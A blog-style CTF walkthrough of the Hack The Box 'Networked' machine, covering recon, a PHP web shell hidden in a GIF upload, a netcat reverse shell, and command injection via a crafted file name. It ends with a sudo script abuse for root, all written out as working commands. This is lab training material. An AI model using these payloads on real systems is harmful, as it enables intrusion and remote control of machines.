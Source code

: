 ```yaml
---
layout: post
title: HTB Networked Walkthrough
categories: [HTB, CTF, OSCP]
---
```


Hi all another easy box from TJnull list. Lets get dive into it.

![](/images/networked/logo.png)

We start with default nmap script

```bash
nmap -sC -sV -oA nmap/inital 10.10.10.146
# Nmap 7.91 scan initiated Sun Feb  7 00:02:31 2021 as: nmap -sC -sV -oA nmap/inital 10.10.10.146
Nmap scan report for 10.10.10.146
Host is up (0.62s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb  7 00:04:01 2021 -- 1 IP address (1 host up) scanned in 90.45 seconds
```

We have few ports open
* 22 for SSH
* 80 for HTTP
* 443 look like close. Not quite sure why this show in this report

I run nmap on all ports but no new port. 

I look into website and there was not much to look. I stat gobuster to brute-force some endpoints

```bash
gobuster dir -u http://10.10.10.146 -t 25 -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.146
[+] Threads:        25
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2021/02/07 00:07:21 Starting gobuster
===============================================================
/index.php (Status: 200)
/uploads (Status: 301)
/photos.php (Status: 200)
/upload.php (Status: 200)
/lib.php (Status: 200)
/backup (Status: 301)
===============================================================
2021/02/07 00:50:57 Finished
===============================================================
```

Backup looks really interesting....

![](/images/networked/backup.png)

We download file, extracted and have a look. It seems in contain our web application. I am terrible with php so I immediately shift to upload.php. I create simple file that contains only magic bite of gif file. 

```bash
$ file test.gif 
test.gif: GIF image data, version 87a, 2592 x
$ cat test.gif              
GIF87a
```

i uploaded this file and accept it. THem i struggle with php. As i was not really good with php i tried to upload file with 2 extensions. php.gif that work.. 

![](/images/networked/uploaded.png)

Shell i used to get this bypass is 

```bash
cat shell1.php.gif 
GIF87a 
<?php echo "START<br/><br/>\n\n\n"; system($_GET["cmd"]); echo "\n\n\n<br/><br/>END"; ?>
```

I tru to run some command and i have RCE on server

![](/images/uploaded/rce.png)

I launch my burpsuite and send this request to repeated. Visited payload all the things to find simple revershe netcat shell
and uploaded it.

![](/images/networked/reverse-shell.png)

Lunch netcat listener

```bash
nc -nlvp 4444
listening on [any] 4444 ...              
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.146] 44440
sh: no job control in this shell                                                          
sh-4.2$ whoami                               
whoami
apache                                                                  
sh-4.2$
```

I found some interesting script in home directory of user

```php                            
<?php           
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';        
$to = 'guly';                              
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";                            
$files = array(); 
$files = preg_grep('/^([^.])/', scandir($path));  

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {                       
        continue;                 
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

It was checking if file contain any wrong name in upload folder. As we want to somehow tamper nohup function I created simple file with touch command.

```bash
touch "a; nc -e /bin/bash 10.10.14.24 9001; b"
```

I lunch my listener but everytime this script run i would received connection from server but it was immediatelly closed. As connection was trigger without shell i had to somehow change /bin/bash. I think it cause some issue with triggering. Them i decide to base64 encode script and this command instead.

```bash
a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjI0IDkwMDEK | base64 -d | sh ; b
```
 
I lunch my listener and wait
```bash
nc -nlvp 9001                                                                                                     
listening on [any] 9001 ...                                                                                           
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.146] 34796                                                         
ls                                                                                                                    
check_attack.php                                          
crontab.guly                                               
user.txt                                                   
whoami                                                     
guly                                                       
python -c "import pty;pty.spawn('/bin/bash')"
[guly@networked ~]$ sudo -l
sudo -l                                          
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,                    
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",                               
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
                                                           
User guly may run the following commands on networked:                                                                
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

I can run this script as admin? I immediatelly lunch it to get some feeling for application

```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
a b                                
interface PROXY_METHOD:
c d                                 
interface BROWSER_ONLY:
e f
interface BOOTPROTO:
g h
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 5: d: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 6: f: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 7: h: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 5: d: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 6: f: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 7: h: command not found
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```

It cannot run command b? :) DO you think what I am thinking? 

```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
a /bin/bash
interface PROXY_METHOD:
a a 
wrong input, try again
interface BROWSER_ONLY:
f
interface BOOTPROTO:
d
[root@networked network-scripts]#
```

I rooted box! Thank you for reading.   